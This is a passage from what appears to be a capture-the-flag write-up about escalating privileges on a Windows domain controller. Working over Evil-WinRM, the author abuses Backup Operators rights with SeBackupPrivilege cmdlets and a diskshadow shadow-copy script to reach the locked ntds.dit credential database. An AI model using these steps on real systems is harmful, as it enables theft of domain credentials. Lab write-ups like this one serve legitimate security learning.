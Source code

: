 ```powershell
*Evil-WinRM* PS C:\Users> net user emily.oscars
```
![](Pasted%20image%2020241009171757.png)
_Part of Backup Operators Group member_

```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Videos> Import-Module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Videos> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Videos> mkdir C:\Temp


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         10/9/2024  10:24 AM                Temp


*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Videos> 
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Videos> Copy-FileSeBackupPrivilege C:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
Opening input file. - The process cannot access the file because it is being used by another process. (Exception from HRESULT: 0x80070020)
At line:1 char:1
+ Copy-FileSeBackupPrivilege C:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-FileSeBackupPrivilege], Exception
    + FullyQualifiedErrorId : System.Exception,bz.OneOEight.SeBackupPrivilege.Copy_FileSeBackupPrivilege
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Videos>
```

Since the `The process cannot access the file because it is being used by another process.` I have to use another alternative process to access this ntds.dit file with the help of diskshadow method.

This is the script for diskshadow that is `back_script.txt` file 🔻

```
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

Here's a simple explanation of each line of the `diskshadow` script:

1. **set verbose on**: This turns on detailed logging, so the script's actions will be displayed more clearly.
   